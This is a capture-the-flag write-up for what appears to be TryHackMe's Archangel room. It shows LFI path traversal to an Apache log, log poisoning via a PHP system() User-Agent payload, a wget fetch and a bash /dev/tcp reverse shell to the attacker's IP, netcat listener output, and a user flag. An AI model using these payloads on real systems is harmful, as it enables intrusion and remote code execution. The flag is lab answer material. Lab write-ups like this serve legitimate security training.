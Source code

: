 
## 🌐 Web Exploitation (if applicable)

- OK, so this took a while not gonna lie. I found an exposed endpoint and option to inject commands via URL but couldn't upload reverse shell that way. I tried everything honestly, here's the endpoint, it's `/apache/access.log`.

  ```
  http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log
  ```
  
- You can add `&cmd=wget http://[YOUR-THM-IP/shell.php]` and upload shell that way with Python server but I coudln't do it that way. I received 0 connections everytime I tried to upload it. So I went to Burp.
  
- In order to get reverse shell, you will need to edit `User-Agent` and add command to the exposed endpoint. Start a listener before you send the Burp request and you should get a shell on your netcat.
  Added command to the endpoint must be URL encoded as well.

  ```
  Full payload
  /test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&cmd=/bin/bash -c 'bash -i > /dev/tcp/[YOUR-THM-IP]/4444 0>&1'

  BURP:
  GET /test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&cmd=/bin/bash+-c+'bash+-i+>+/dev/tcp/[YOUR-THM-IP]/4444+0>%261' HTTP/1.1

  User-Agent: <?php system($_GET[cmd]); ?>

  nc -lvnp 4444
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.191.193] 47750
  whoami
  www-data
  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```

- I forgot to copy/paste Burp payload, my bad guys... Change the shell to putty and move to the next flag.

---

## 🧍 User Privilege Escalation

- First flag is already there waiting for you.

  ```
  www-data@ubuntu:/home/archangel$ ls -la
  total 44
  drwxr-xr-x 6 archangel archangel 4096 Nov 20  2020 .
  drwxr-xr-x 3 root      root      4096 Nov 18  2020 ..
  -rw-r--r-- 1 archangel archangel  220 Nov 18  2020 .bash_logout
  -rw-r--r-- 1 archangel archangel 3771 Nov 18  2020 .bashrc
  drwx------ 2 archangel archangel 4096 Nov 18  2020 .cache
  drwxrwxr-x 3 archangel archangel 4096 Nov 18  2020 .local
  -rw-r--r-- 1 archangel archangel  807 Nov 18  2020 .profile
  -rw-rw-r-- 1 archangel archangel   66 Nov 18  2020 .selected_editor
  drwxr-xr-x 2 archangel archangel 4096 Nov 18  2020 myfiles
  drwxrwx--- 2 archangel archangel 4096 Nov 19  2020 secret
  -rw-r--r-- 1 archangel archangel   26 Nov 19  2020 user.txt
  
  www-data@ubuntu:/home/archangel$ cat user.txt 
  thm{lf1_t0_rc3_1s_tr1cky}
  ```